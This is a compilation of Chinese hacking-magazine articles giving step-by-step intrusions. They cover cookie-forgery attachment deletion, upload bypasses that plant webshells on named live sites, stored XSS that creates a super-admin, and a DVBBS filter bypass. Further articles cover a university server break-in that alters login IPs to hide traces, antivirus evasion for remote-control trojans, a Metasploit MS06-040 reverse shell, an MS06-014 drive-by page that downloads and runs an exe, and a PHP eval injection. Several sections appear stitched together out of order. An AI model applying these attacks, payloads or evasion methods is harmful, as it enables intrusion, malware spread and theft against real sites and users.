  error2("删除成功")
end if
```

由此可见程序仅通过 Cookie 中的 UserName 区分用户。如果把 Cookie 中的“UserName”改成另一个用户，再把 POST 中的 ID 改为该用户附件的 ID，就可能越权删除附件。作者随后给出假设并进行验证。

在论坛中发现了一个带图片的帖子，图片属性指向 `/bbsxp/PostAttachment.asp?AttachmentID=13`。将抓到的数据填入 POST 注入工具后，把 Cookie 里的 UserName 改成目标用户，并将 POST 中的 ID 从 9 改为 13，提交后返回“删除成功”。

整个过程说明：只要把 Cookie 中的用户名改成某个用户，再把 POST 中的 ID 改为其附件 ID，就可以跨用户删除文件。作者提醒应尽快修补漏洞。

```asp
if CookieUserName="" then error("<li>您还未<a href=Login.asp>登录</a>论坛")
CookieUserpass="'"+UrlEncode(unescape(Request.Cookies("Userpass")))+"'"
if Request("menu")="DelPostAttachment" then
  for each ho in Request.form("ID")
    ho=int(ho)
    Conn.execute("Delete from [BBSXP_PostAttachments] where id='"&ho&"' and UserName=(select username from [bbsxp_users] where username='"&CookieUserName&"' and userpass='"&CookieUserpass&"')")
  next
  error2("删除成功")
end if
```

修正思路是在验证用户名的同时加入用户密码（或等价凭据）校验，减少仅靠用户名导致的越权风险。文末强调及时升级论坛版本与修补程序的重要性。

## 利用雷驰上传漏洞轻松拿下六盘水信息港

rabbitsafe

### 一、起因

一个星期前，朋友让我帮忙检测下他们那里信息港的安全。由于没有时间，只是大概看了一下，信息港没有什么明显的漏洞，就一直放着。今天终于有一天休息时间了，就对朋友那里的六盘水信息港认真地检测了一下，看能不能渗透进去。


图1

### 二、寻找突破点

打开IE，浏览了下六盘水信息港，这个网站是电信的增值服务性网站，网站没有实质性的内容，很多链接都是指向其它站点，新闻页面是带有参数变量的，先试试能不能注入，提交 `http://www.sc.gz.cn/onews.asp?id=110 and 1=1`，结果返回，如图1所示。

好像是数据库驱动的问题，其它几个页面也是一样的问题。新闻页面不能注入。先看看新闻系统的后台，一般的管理员对程序后台没初始化，很可能从后台识别出判断系统程序，如果能知道它用的什么源程序，那就好办了。在地址栏提交：`http://www.sc.gz.cn/admin/`，后台没有改，运气不错，六盘水信息港台新闻系统的后台，如图2。


图2

好眼熟啊，好像是雷驰新闻系统。前几天，雷驰新闻系统刚曝出了上传漏洞，我正好下载了一个雷驰新闻系统在本机上测试，马上进入本地程序的后台，在地址栏提交：`http://127.0.0.1/test/leichi/admin/adminlogin.asp`，雷驰新闻系统的后台，如图3。


图3

两个一比较就知道了，六盘水信息港的新闻系统就是在雷驰新闻系统上改动了几个字。雷驰新闻系统前几天刚曝出了上传漏洞。

- 漏洞描述：
- 在 `admin` 文件夹下的 `uploadPic.inc.asp` 中，没有对访问权限进行限制，任意用户都可以访问到此文件，任意用户都可以使用该文件上传文件到服务器。
- `uploadPic.inc.asp` 中虽然对上传文件的后缀名进行了限制，但是可被绕过。


图4

`uploadPic.inc.asp` 文件存在问题的部分代码，如图4所示。关键部分是：

```vb
if actionType=="mod" then
    formFileName = Right(picName, len(picName)-InStrRev(picName,"/"))
```

只要自己构造 `actionType=="mod"` 就可以绕过下面的文件名检测，上传ASP文件。构造如下URL：`http://localhost/test/leichi/admin/uploadPic.asp?actionType=mod&picName=test.asp`，然后在上传文件里面填要上传的图片格式的ASP木马，就可以在 `uppic` 目录下上传文件名为 `test.asp` 的文件 `uppic/test.asp`。

### 三、轻松拿到webshell

我马上拿出编写的雷驰新闻系统上传漏洞利用工具，如图5。网站地址写上：`www.sc.gz.cn`，漏洞地址1写上：`/admin/uploadPic.inc.asp?upLoad_code=qk editImageNum=?actionType=mod&picName=`，漏洞地址2写上：`/admin/uploadPic.asp?actionType=mod&picName=`，点击“send”发送。


图5

回信息如图6所示。


至于提权的方法，网上讲了很多，如果有不懂的朋友，请在网上找找这方面的资料吧。


### 四、总结

一个小小的上传漏洞就把这个大站拿下了。上传漏洞如果利用好了，对网站的危害相当大。这个信息港的流量很大，如果在首页挂马，后果不堪设想。没想到管理员竟然随便用个新闻系统应付了事，安全意识太差。我已经联系管理员了，请大家不要非法操作，一切后果与本人无关。

## 巧妙跨站，实现战果最大化——轻取网域影视系统SP2版

今天在网上无意中看到了“网域影视”这款整站系统，于是就想对其安全检测一下，在各个可能有漏洞的点进行黑箱测试。结果在注册点发现了跨站漏洞。

我们来看看如何通过跨站扩大成果成为超级管理员。引起漏洞的原因是用户注册时没有作充分过滤，仅在客户端作了简单判断是否为字母和数字，又没有对是否本地提交作出检测。

```html
<script language="javascript">
document.form1.submit()
</script>
```

构造一个自动提交的表单，修改 action 为网站的绝对路径；然后保存为 index.htm，并上传到网页空间即可触发。

- 先注册一个用于完成特定功能的用户，用户名中加入 iframe 片段以触发管理页面行为。
- 开始注册我们构造的特殊用户；由于用户名长度限制，可通过 iframe 标签形式绕过并完成注册。

### 一、方法分析

- 首先我们要注册个用户让其完成特定功能，这里当然不能规规矩矩地输入。
- 用户名中包含 `<iframe src="">...</iframe>`，借助页面机制完成“添加超级管理员”动作。


图3

空间名字太长了，就无法为大家演示这种隐藏方法了，本文也仅作为参考。直接注册会提示用户名只能为字母和数字的，我们来本地提交，查看注册页面的代码，删除其对用户名做的判断，修改 action 为绝对路径，然后保存为本地页面提交，这里保存为 reguserf11.htm，输入后提交我们已经成功注册了。

注册完必须登录一次，那样我们的资料才会存入用户数据库，然后就是静候佳音了。只要管理员在后台查看了会员列表，也就是只要我们大名出现在管理界屏幕上，就添加了超级管理员 icefall 了，如图3。

### 二、漏洞修补

这个系统存在的安全隐患实在是太多了，整个系统中有防注入程序，也有自己编写的防本地提交，但目录非常混乱，本该 include 的却没有。如果是应急，可以在 user 目录下的 `iionserver.asp` 中加入 `<!--#include file="../index/checkpost.asp"-->` 和 `<!--#include file="../Neeao_Sqln.Asp"-->`。

### 三、写在后面

测试过程中我读了部分代码，发现会员级别是用 oklook 数值来区分，我没读过金梅电影系统的源码，但怀疑绝大部分是雷同的。user 目录下 `wantpws.asp` 和 `searchname.asp` 对输入也完全没有过滤，union 查询肯定爆出N多付费用户。其后台则完全采用 cbf001 的，两者杂合起来安全性却没能提高，虽然加入了sql防注入文件，却又没处理完善；管理员进入查看我们带有特殊符号的用户具体资料时会被认为提交了非法语句，连管理员IP都会被封。

本文的目的只是想教给大家网站的一种利用方法，也希望能引起中国整站系统编写者的些许注意，从而开发出更好的系统。（文章中涉及到的录像和源码已经收录在光盘中）


## 千金之后动网再投虫——利用“叉现变脸”绕站漏洞

寂寞的刺猬 [L.S.T]

动网前段时间推出了“千金抓虫”，我得到消息时已是28号了，速忙下载了一套DVBBS代码，找了几个漏洞发了过去，但自那之后，就石沉大海，杳无音信了！难道动网搞“千金抓虫”是为了挣个好名声？也可能是我找的漏洞太小，不值得管理人员反馈了，还是老老实实地看代码吧！看看这千金之后的动网是否安全了？

### 一、分析

今年5月，BCT一连公布了动网的三个漏洞，其中的两个跨站漏洞都是针对“UBB的IMG标签”，紧接着剑心在06年6期《网络世界混乱的起源——[img]标签乐翻天》一文中又一次提到动网的img漏洞，看来这个img标签就是动网的薄弱之处！目标锁定后，我就把重点放在了 `mymodify.asp`（资料修改）页，在分析完后，发现新公布的动网程序在更新头像代码处还是存在过滤不严的漏洞！部分源码如下：

```vb
If InStr(LCase(Request.Form("myface")),"<")>0 And CInt(Dvbbs.Forum_Setting(54))>0 And Not MyPost Then
  ' 第一步：对名字和宽度/高度条件进行验证
  If Request.Form("width")="" Or Request.Form("height")="" Then
    ErrCodes=ErrCodes+"<li>"+template.Strings(18)
  Else
    ...
  End If
End If
```

```vb
If InStr(LCase(Request.Form("myface")),"http://")>0 Or InStr(LCase(Request.Form("myface")),"www")>0 Then
  ErrCodes=ErrCodes+"<li>"+template.Strings(24)
End If
face=Request.Form("myface")
width=Request.Form("width")
height=Request.Form("height")
...
face=Dv_FilterJS(Replace(face,"\",""))
face=Replace(face,"<","")
face=Replace(face,">","")
face=Left(face,200)
Rs("UserFace")=face
```

不明白？那我们再共同分析一遍。在分析之前，先对上面的“myface”和“face”说明一下，它们分别是动网的自定义头像（myface）和论坛内置头像（face）。如果提交来的自定义头像（myface）不为空，且用户发帖数达到程序设置的最少发帖数，再就是提交的路径中没有“.asp”，满足了这几个条件，才允许转入第二步，否则跳至第五步……程序先用 `Dv_FilterJS()` 及 `Replace()` 对“face”再进行过滤！这就是“myface”的提交过程。

再来看“face”的提交过程，如果提交的“myface”为空或者用户发帖量小于规定值或者自定义的头像名称中含有“asp”，程序就会自动跳至第五步，直接将 `Request.Form("face")` 赋值给 `face`。

无论是“myface”还是“face”，最后都要经过第六步 `Dv_FilterJS()` 及 `Replace()` 的过滤。虽然使用内置头像的 `Request.Form("face")` 方法，可以提交一些特殊字符，但能否通过第六关呢？下面再着重分析一下 `Dv_FilterJS()` 是如何过滤的。

突破PJBLOG上传文件名的方法：PJBLOG在上传过程中会过滤“asp”格式扩展名，但如果提交扩展名为“aaspsp”的文件，在经过过滤之后，所保存的扩展名反而成了“.asp”。用这个思路来看动网此处的过滤，也有些类似！

在第六步中，程序先用 `Dv_FilterJS()` 进行过滤，再用 `Replace()` 过滤。若提交 `face` 值是 `javascript:`，在传递到 `Dv_FilterJS()` 时，因为有 `script` 字符，会被替换；但如果构造如 `javas|cript:`（在 script 中插入一个字符）这样的字符串，就可能绕过前半段匹配，随后在 `Replace(face,"|","")` 时把 `|` 去掉，最终又还原为 `javascript:`，从而实现绕过。

### 二、测试

打开 `http://bbs.dvbbs.net`，用已注册用户登录，进入“用户控制面板”的“基本资料修改”页。这里能直接修改的是自定义头像（myface）值，而论坛内置头像（face）的值是隐藏在选项中的，因此要修改 `face`，需要抓取提交数据。可用“Winsock Export”抓包，点击“更新”后可得到提交数据。

```vb
Function Dv_FilterJS(v)
  If Not Isnull(v) Then
    Dim t
    Dim re
    Set re=new RegExp
    re.IgnoreCase=True
    re.Global=True
    re.Pattern="(%;)"
    t=re.Replace(v,"<I>%</I>")
    re.Pattern="(&#;)"
    t=re.Replace(v,"<I>&#</I>")
    re.Pattern="(script)"
    t=re.Replace(t,"<I>script</I>")
    re.Pattern="(js:)"
    t=re.Replace(t,"<I>js:</I>")
    re.Pattern="(value)"
    t=re.Replace(t,"<I>value</I>")
    re.Pattern="(about:)"
    t=re.Replace(t,"<I>about:</I>")
    re.Pattern="(file:)"
    t=re.Replace(t,"<I>file:</I>")
    re.Pattern="(Document.cookie)"
    t=re.Replace(t,"<I>Document.cookie</I>")
    re.Pattern="(vbs)"
    t=re.Replace(t,"<I>vbs</I>")
    re.Pattern="(on(mouse|Exit|error|click|key))"
    t=re.Replace(t,"<I>on$2</I>")
    Dv_FilterJS=Trim(t)
    Set Re=Nothing
  End If
End Function
```

```http
POST /mymodify.asp?action=updat&username=757800 HTTP/1.1
Referer: http://bbs.dvbbs.net/mymodify.asp
Host: bbs.dvbbs.net
Cookie: ...

title=&sex=1&face=Images%2Fuserface%2Fimage1.gif&myface=Images%2Fuserface%2Fimage1.gif&width=32&height=32
```


将这些数据分别复制到“POST提交工具”中，修改“提交信息”里的 `myface` 和 `face` 值。分析中已说明，当 `myface` 为空或某些条件满足时，程序才会读取 `face` 提交值，因此需将 `myface` 清空，再把 `face` 改为构造的跨站代码。还要注意：若前台显示被截断，通常与页面编码转义有关，构造语句时需尽量避免触发编码转换。

哦哦！对跨站所用到的 `script`、`js:`、`Document.cookie`、`on(mouse|Exit|error|click|key)`、`&#` 等字符都进行了过滤；但 `Replace()` 仅对 `|`、`.`、`^`、`"`、`#`、`%`、`*` 等进行了替换。如何突破第六步的过滤呢？想啊想……

## 一个人的战争

“<”“>”之类字符的出现，如何在不用“<”“>”的情况下跨站呢？……对于 [img] 的跨站，直接输入：`javascript:alert('跨站提示')`，就能实现跨站效果。OK！在“face”后输入 `javascript:alert("jm")`……


如果觉得上面的抓包提交方法繁琐，那就先去论坛灌水……当你所发帖数达到程序所设定的“使用自定义头像的最少发帖数”，你就可以用另一种方法“自定义头像（myface）”提交了。


在自定义头像地址中输入：`javascript:open("http://www.hackerxfiles.net","黑客X档案","width=200,height=200")`，然后点“更新”……

注：使用自定义头像（myface）直接提交需满足条件：
- 发帖数达到最少值；
- 程序允许链接其他站点头像；
- 地址长度不超过100字符。


觉得这种效果不够刺激？那就再来一个弹出WEB窗口的表演，将face的值改为：`javascript:open('http://www.hackerxfiles.net','黑客X档案','width=200,height=200')`……


可能是因为open的特性，无论怎么设置宽和高的值，均不能隐藏弹出的WEB窗口……


### 三、修补

想想怪可惜的，在烈网结束“千金抓虫”后，我才发现这个头像跨站漏洞……此漏洞主要在于 `Replace()` 替换漏洞，因为它会将某些特殊字符替换成空，而不是进行字符转换。

```vb
face=Dv_FilterJS(Replace(face,"'",""))
face=Replace(face,"\","")
face=Replace(face,"|","&#94;")
face=Replace(face,"#","&#35;")
face=Replace(face,"%","&#37;")
face=Replace(face,"|","&#124;")
face=Replace(face,"..","&#46;&#46;")
```

其次是在获取 `Request.Form("face")` 值后，对“face”过滤不严……所以在 `Face=Request.Form("face")` 后，还要加入如下判断：

```vb
if (instr(lcase(Right(Request.Form("face"),4)),".jpg")>0 or _
instr(lcase(Right(Request.Form("face"),4)),".gif")>0) and (not _
instr(Replace(Request.Form("face"),"\","/"),"://")>0) then
    Face=Request.Form("face")
else
    Face=Dvbbs.Forum_Userface(0)&Dvbbs.Forum_userface(1)
end if
```

注：请勿将本文技术用于违法活动，否则后果自负。（文中涉及工具 WinSock Expert、jmtools 已经收录于光盘中）


## 渗透实战：高校门户型网站渗透攻略

旭方（高春雷）

今天在 QQ 上和高中时的好友聊天时，他说他现在正在一所软件学院当信息安全专业。什么？信息安全？这可是我梦寐以求的专业啊，太羡慕了！可惜我当初高考填志愿的时候一不小心填错了专业，后悔啊！这时朋友说让我去帮忙检测一下他们学校的网站是否存在安全漏洞，既然是朋友开口那我也不好拒绝了！

首先打开 Google 找到了朋友学校的网址。他们网站的页面做得非常漂亮，而且学校看起来也很牛！来看看网站的安全性是否也像他们的学校那样吧！草草浏览了下主页上的链接，发现几乎都是静态的页面，但在少数几个链接中发现了 asp 的页面，但却不是像“.asp?id=20”这样存在参数提交的页面。不过根据我的经验，这样的站点或多或少都应该存在几个有数据提交的页面。我们采用经典的 Google Hack 来把那些存在数据提交的页面挖出来！方法是在 Google 中输入 `inurl:asp? site:www.hxci.com.cn`，通过 Google 的查找，我得到了稀有的两个存在数据提交的页面，分别是：

- `http://www.hxci.com.cn/list.asp?boardid=2`
- `http://www.hxci.com.cn/liuyan/index.asp?page=2`

来测试下是否存在 SQL 注入漏洞吧！先提交个单引号，结果弹出如图 1 所示的信息……

用其它站点的线路进行渗透，但结果却发现虽然服务器上没有绑定任何域名，如图 3。到此人陷入了僵局，怎么办？看来只能利用第三方程序的缺陷了！

于是我在网站上找了找，看有没有使用第三方的论坛或者 blog 程序什么的，但现实又一次无情地打击了我，一个都没有！我喝了口水静下心想了一下，这时候我回想起来以前在渗透一些网站的时候，发现他们的根目录下都有一个 cwebeditor 的文件夹，因为使用它来编辑东西实在是太方便了！那看看这个站点有没有使用这个编辑器吧！怀着忐忑的心情在网址后输入了 cwebeditor 然后回车，返回了如图 4 所示的信息，提示拒绝列目录！哈哈！证明目录是存在的！

看来对方使用了 eWebEditor！接着又试了下 eWebEditor 的管理员默认登录页面，同样返回正常，如图 5。哈哈！如果要是默认的密码的话……于是输入默认的管理员用户名 admin 和密码 admin 进行登录……


看来正面进攻确实很难，那来点阴险的，SQL 注入！我使用 whois.webhosting.info 查看服务器上是否还存在其它的站点……


图 6

接下来就简单了，无非是上传类型与上传 ASP 木马，大家可以详见前几期 X 档案。就这样，我得到了一个 webshell，如图 7。


图 7

进去后首先浏览了下服务器上的组件信息，如图 8。这样一来像 FSO 没有被禁用，这样如果权限允许的话我们就可以随意测试和编辑服务器上的文件了，而且 Shell.Application 和 WScript.Shell 同样也没有被管理员禁用，看来利用 wscript.shell 来执行程序是有望了！我来到“系统服务列表”中查看了下服务器上开启的服务，发现有 Serv-U，如图 9。


图 8


图 9

于是去 Serv-U 的安装路径 `D:\Program Files\Serv-U\` 查看了下 `Version.txt` 文件，发现版本是 6.0 的（6.0 的版本如果没有将默认的管理员密码更改的话，依然可以使用 Serv-U 的提权工具进行提权），而且我通过查看服务器的信息发现服务器是在内网的，IP 地址为 192.168.99.5。如果我们可以成功提权的话，就可以使用 Serv-U 的提权工具在对方服务器中运行我们的免杀鸽子服务端，然后通过鸽子的反向连接功能来控制对方的服务器了！而且还可以穿过对方的防火墙！那就来试下吧！首先看看能否成功提升权限！

先将 Serv-U 的提权工具上传到对方的服务器中，然后在海阳的“WScript.Shell 命令行操作”中选中“使用 WScript.Shell”，然后在“命令/参数”中输入 `E:\website\images\su.exe "net user xufang xufang19860219 /add"`，点“运行”，运行结果如图 10 所示。大家一定看见里面的“530 Not Logged in”了吧？！证明提权工具使用默认的管理员用户名和密码登录失败，自然提权也就失败了，看来想从 Serv-U 这个提权大户中搞到最高权限是不可能的事了！


图 10

接着我又查看了一下服务器上是否安装了 PcAnywhere 等远程管理软件，如果找到传说中的 `.cif` 文件，然后导入本地破解密码，之后再远程登录控制对方服务器。但结果很令我失望，没有 `.cif` 文件！那就看看他的新闻系统后台是什么样子的吧！顺便也在里面给管理员留条信息说明漏洞的事情。于是浏览了下服务器上的文件信息，成功找到了新闻管理系统的数据文件，然后使用海阳的“数据库操作器”功能打开新闻管理系统的数据库文件，在 users 表中找到了新闻系统管理员登录的用户名和密码信息，但密码是经过 md5 加密过的，如图 11。我查看了一下，发现用户名为王晖的 U_info 字段处显示的为“超级管理员”，看来他就是后台具有最高权限的用户了！那就用他的账户登录后台吧！


图 11

但当我把他的密码的 md5 放在在线 MD5 密码查询网站进行查询的时候却发现没有结果，看来不愧是超级管理员，密码都这么强悍！那这样我们就登录不了后台了吗？NO！我们就使用这个数据库操作器来将他的密码改为我们所设置的密码！不过记得更改后的密码要是经过 md5 加密过的哦！否则不会登录成功。

成功的！我使用老兵的 md5 转换工具进行转换，如图 12，密码是 999999999。因为网站数据库中采用的是 16 位的 md5 加密，所以我们选择 999999999 的 16 位 md5 密码 `9f3d8352d7bb792c`，然后在海阳的“执行查询”中输入 `update [users] set userpwd='9f3d8352d7bb792c' where username='王晖'`，如图 13。这样就把用户名为王晖的用户的登录密码改为了 999999999。执行成功后我们登录后台看看！后台地址我再怎么找好了，结果成功登录了华夏的新河管理系统后台，如图 14。


嘿！自己的 IP 地址还在里面！这让管理员发现可不得了！其中保存登录 IP 的字段名为 `LoginIP`，我们在“执行查询”中输入 `update [users] set LoginIP='127.0.0.1' where username='王晖'`，这样就把用户名王晖的上次登录后的 IP 地址更改为了 127.0.0.1。哈哈，大家在入侵中可以根据实际情况去改哦！好了，登录的痕迹抹掉了，接下来就是删除自己的 webshell 和上传的文件然后走人！

里面功能好多啊！可是不敢停留过长，否则如果管理员这个时候登录的话就会提示密码错误，所以迅速在后台给管理员留了条信息就闪了。最后还要记得把管理员原来的密码改回去，方法是在“执行查询”中输入 `update [users] set userpwd='管理员原来密码的md5值' where username='王晖'`。更改完后我发现该系统还自动记录用户的登录 IP 地址。我定睛一看！天……这次入侵之所以能成功，都是由于管理员没有将 eWebEditor 的默认管理员用户名和密码更改，还有数据库也没有更换名字，而且还是默认的后台。这就给了入侵者一个空子可钻。总体来看他们的网站还是很安全的，但偏偏是这个小小的失误造成了整个服务器的沦陷。这不能不让国内的网站管理员们深思，在此我也希望国内网站的管理员能够提高安全意识，定期去尝试渗透自己管理的服务器，因为你能做到的入侵者一样能够做到！

> （文章中涉及到的工具 DELPHI 版 MD5 计算工具已经收录在光盘中）

### 四、PcHide.sys 的免杀

经常制作免杀的朋友都知道 VMProtect 这款加密工具的流行，正是由于对 PcShare 制作免杀开始的。我们首先通过 C32Asm 打开 PcHide.sys 来寻找入口点，因为 OllyDbg 无法对 SYS 格式的文件进行操作。运行 C32Asm 后，通过工具栏中的“打开”命令来选择文件 PcHide.sys，接着在弹出的“反汇编”窗口点击鼠标右键，选择其中的“跳到入口点”命令，这样程序就可以自动找到文件的入口点，即 00011704（图 9）。下面开始对入口点进行加密：运行 VMProtect，点击“文件”菜单下的“打开”按钮来选择 PcHide.sys 文件；接着在程序“地址”区域的任意空白处点击鼠标右键，选择菜单中的“添加地址”命令，将刚刚获得的入口点地址复制到输入框中。然后在右侧的地址内容中任意选择一个地址，并点击鼠标右键中的“程序壳端”命令；接着点击工具栏中的“编译”按钮，就会在相同的目录生成一个名为“PcHide.vmp.sys”的加密文件了（图 10）。经过测试，大多数杀毒软件都可以顺利通过，只有江民没有通过。没有关系，我们只需要通过加壳工具对其进行加壳处理即可，我采用的是 ASPack，具体操作同上。到此为止，PcShare2006 中四个被杀的服务端文件都已经成功地躲过卡巴斯基、江民、金山毒霸、瑞星的查杀。现在，我们就可以放心来使用 PcShare2006 了。


> （本文所涉及到的 PcShare2006、PED、OllyDbg、PEditor 和 VMProtect 已收录到光盘中）

## 菜鸟新招：MS06-040 远程溢出新体验


新学期新气象，菜鸟们玩腻了那些老漏洞是不是也想换个花样来入侵了呢？感谢微软，8 月份公布的“Windows Server 服务远程代码执行漏洞（MS06-040）”可以满足大家的心愿了，下面就看看这个漏洞怎么利用吧！

把 `netapi_ms06_040.pm` 这个文件复制到 Metasploit Framework 安装目录的 exploits 目录下，我这里是 `C:\Program Files\Metasploit Framework\home\framework\exploits` 中，如图 3。现在我们打开“开始”菜单，找到 Metasploit Framework，单击 MSFConsole，稍等片刻后，运行界面如图 4。

### 一、扫描

首先打开 RetinaNetApiScanner.exe（MS06-040 专用扫描工具），界面如图 1。


图 1

在“Select Targets”中选择第二项“IP Range”，这样我们可以扫描一个 IP 段（该扫描器做了限制，一次只能扫描 256 个 IP）。我们扫描内网（192.168.0.1-192.168.0.256），单击“Scan”按钮，如图 2。所有存在漏洞的机器都被显示出来了（显示“Vulnerable”的即为存在漏洞）。


图 3


图 4

看起来是不是和普通的 CMD 差不多啊？我们首先输入命令 `show exploits` 查看一下有没有 `netapi_ms06_040` 这个漏洞的信息。如果刚才我们的 `netapi_ms06_040.pm` 文件成功地放到了 exploits 目录下的话，现在应该能在列出的 exploits 列表中看到“netapi_ms06_040 Microsoft NetpIsRemote Overflow”了。接着就输入命令 `use netapi_ms06_040` 进入 MS06-040 漏洞的利用菜单里，输入 `show options` 查看这个漏洞的利用需要输入哪些参数，如图 5。


图 2

不过我们现在的漏洞利用工具仅支持 Windows NT 4.0、2000 SP0-SP4 和 XP SP0-SP1。换句话说，即使 Windows XP SP2 或者 Windows 2003 存在漏洞，咱们也入侵不了别人，这不能不说是一个很大的遗憾。

### 二、溢出

好了，我们就以 192.168.0.253 这台电脑为例来进行测试吧（其实俺知道这是编辑部梦幻 MM 的电脑，她是 XP 系统但是绝对没打 SP2 补丁，嘿嘿）！首先安装好“Metasploit Framework”，然后把 `netapi_ms06_040` 模块准备好。


图 5

### 小技巧

在这个工具界面中，许多命令支持使用 `TAB` 自动补全。输入命令前缀后按 `TAB`，可自动补齐为完整命令或显示可选项。

从图中可以看到需要填写的参数有 4 个：`RHOST`、`SMBDOM`、`SMBUSER` 与 `SMBPASS`。其中只有 `RHOST` 是必须（required），其余为可选（optional）。因此先设置目标 IP 即可。

输入 `set RHOST 192.168.0.253` 后即可设定目标地址。接下来可以选择溢出方式（在 PAYLOADS 中选择），输入 `show payloads` 可查看候选项。


从图中可见有多种 payload（shellcode），文中选择 `win32_reverse`（反向连接）方式。

命令为：`set PAYLOAD win32_reverse`。随后输入 `show options` 会看到比先前更多的选项需要设置。

- `EXITFUNC`：退出函数名，通常保留默认。
- `LHOST`：本地 IP 地址（需要设置）。
- `LPORT`：本地监听端口，默认 4321，一般可不改。

输入 `set LHOST 192.168.0.123` 设置本地 IP 后，基本配置完成。可用 `set` 查看当前设置；确认无误后输入 `exploit` 执行溢出。


文中说明成功获得 shell，并可按前述方式上传木马以长期控制目标主机；还举例可在桌面写入特定文本文件作为验证。

（文中提及 RetinaNetApiScanner.exe、Metasploit Framework 与 `netapi_ms06_040.pm`，以及下载执行的溢出程序已收录到光盘。）

### 尖小细语

MS06-040 及其变种曾影响范围较广，修补与版本核对非常关键；文中还提到可借助扫描工具快速确认目标系统与补丁情况。

## 黑客术语小补习：什么是后门（BackDoor）？

后门是形象化比喻：入侵者在控制目标后通过植入程序或修改配置，使其可在不易被察觉的情况下再次进入系统并重新控制主机。常见木马程序可被用于构建后门能力。

## 今年流行玩挂马，挂马就用 MS06-014

zj1244 小葵（曾佳）

自今年年初微软的 MS05-001 漏洞以后，就一直没有更好的网页木马出现在我们的视野中。感谢微软，随着 MS06-014 漏洞利用代码的出现，我们终于可以拥有一个完美的网页木马了。这个网页木马不弹窗、不闪、不卡，又通杀 Windows2000/XP SP2/2003，真正做到了杀人于无形……

> 微软漏洞描述：作为 ActiveX 数据对象（ADO）的部分提供并在 MDAC 中分发的 RDS Dataspace ActiveX 控件中存在一个远程代码执行漏洞。成功利用此漏洞的攻击者可以完全控制受影响的系统（详见微软安全公告 MS06-014）。

小编注：虽说该漏洞存在于所有的系统中，可是小编测试时，在部分 XP SP2 机器上（未打补丁）并未成功，原因暂时不明。

### 一、网马的生成

首先拿出我为大家制作的 MS06-014 网页木马生成器，打开后界面如图 1。只要在“木马地址”栏填写木马所在地址，比如 `http://www.zj1244.com/huigezi.exe`，点击“生成网马”，就会在当前目录下生成一个 `muma.htm` 了，如图 2。


这就是我们最原始的网马。在未打补丁的电脑上打开这个文件就会自动下载并运行木马程序。这里还可以选择“是否隐藏源码”，勾选后生成的网页木马会多出以下几行代码：

```html
<script type="text/jscript">
function zj1244(){
  document.write(...)
}
window.onload=zj1244
</script>
```

这段代码的意思是当页面加载完毕后，执行 zj1244 函数。该函数的功能是将页面内容清空，所以在 IE 查看“源文件”时，只会看到一片空白而看不到网马源码。

### 二、网马的免杀

一个完美的网页木马应该是免杀的，否则我们一挂出去杀毒软件就报警。如何免杀？在工具第二步里提供了几种常见加密方式，并对其效果进行了测试。

- 空字符加密：通过随机添加 00H 达到免杀
- 转义字符加密：把要加密文件转换成八进制表达方式
- Escape 加密：通过 Escape 编码加密
- 拆分特征码：通过拆分特征码达到免杀

| 加密方式 | 空字符加密 | 转义字符加密 | Escape 加密 | 拆分特征码 |
|---|---|---|---|---|
| 是否免杀 | 否 | 是 | 是 | 是 |

表 1

通过上表可以看出后三种方式通过了文件检测，但运行后仍可能被内存检测拦截。进一步测试发现，仅用转义字符加密或 Escape 加密时仍会报警。


而以拆分特征码加密的 htm 文件却通过了检测。原理是将可能被列为特征码的字符串拆分，绕过查杀。文末继续介绍了在“代码密文件”中选择拆分特征码并手工编辑 `muma.htm` 的操作步骤。

## 一、个人站的战争

后把它输入到文本框里（注意：包括双引号），最后单击“加密”，就可以了，如图4。


为什么拿“"object"”当特征码？这个就要看个人的经验了，如果你实在不知道哪个是特征码，就干脆把所有被双引号括起来的字符串当做特征码，依次进行拆分。

> **注意：** 不是什么字符串都可以当特征码的，只有在源代码里本来就是用双引号括起来的字符串才可以当特征码，如“"object"”“"clsid:BD96C556-65A3-11D0-983A-00C04FC29E36"”；而本来就没有被双引号括起来的字符串是不可以当特征码的，如 `document.createElement` 或者 `setAttribute` 这些都不可以当特征码。


我们用杀毒软件来检测看看我们加密的文件是否免杀，还是被杀了，看来还有其它的特征码没有拆分（图5）。重复刚才的步骤：欲加密文件选择 1.htm，文件另存为 2.htm，特征码填写“"clsid:BD96C556-65A3-11D0-983A-00C04FC29E36"”，然后加密，还是被杀。


接下来我们分别把“"Microsoft.XMLHTTP"”“"Adodb.Stream"”“"Scripting.FileSystemObject"”当作特征码依次拆分。加密出来的 test.htm 终于顺利通过杀毒软件的查杀（图6）。当然你怕别人看你的源代码，还可以给 test.htm 再多加几次密，比如：把 test.htm 用转义字符串加密，然后再用 Escape 加密，最后再用微软的 screnc.exe 加密。

### 三、网马的使用

现在我们把制作好的 htm 文件和 exe 文件上传到肉鸡上，没有肉鸡的朋友也可以用网上提供的免费空间。我刚才用百度找到了一个免费空间：http://www.xinwen365.net/。申请很简单，而且也可开通，不必等待审核。我申请的地址是 http://zj1244.xinwen365.net/，通过空间提供商的 web 管理系统我们便可很轻松地把网马给上传上去（图7）。图中的 test.htm 就是我们制作出的网马，而 test.jpg 就是木马程序（因为许多免费空间都不允许上传 exe 文件，我们可以把 exe 文件的后缀名改为 jpg 后上传，如刚才的 test.jpg）。


接下来要开始寻找 webshell，我们用最近公布的 SnowStats 统计系统漏洞来获得 webshell 吧（职业欠钱：还记得我们在“完美的网页木马”中提过吧？需要 webshell 的时候就临时找一个最新的漏洞去入侵就是了）。这个漏洞是因为 register.php 里的 `$website` 变量没有过滤单引号（'）和注释号（//）形成的，它可以使恶意攻击者直接获得 webshell。

我们先在 google 里搜关键字 powered by weaverdream.com bleakwind，可以找到很多用这个系统的网站（图8）。


然后随便选一个，比如 http://www.xxx.cn/tongji/。注册个用户 zj1244，资料里的网站名称填写：`zj1244';eval($_POST[hacker]);//`，“zj1244'”是为了和源代码的前一个单引号闭合，中间的是一句话木马，后面的 // 是为了注释掉源代码后一个单引号。其它的资料随便写，点击注册（图9）。


注册成功后，我们打开“列框”木马（PHP+ASP），在木马地址里填写 http://www.xxx.cn/tongji/userdata/zj1244/config.php，其中 zj1244 是你自己注册的用户名字，密码填写 hacker。基本功能列表里选择“上传文件”，把“文件路径”清空，然后上传一个 asp 木马或者是 php 木马都可以。我们选择了海阳顶端 ASP 木马（test.asp），单击提交（图10），`http://www.xxx.cn/tongji/userdata/zj1244/test.asp` 就是现在的 webshell 了。


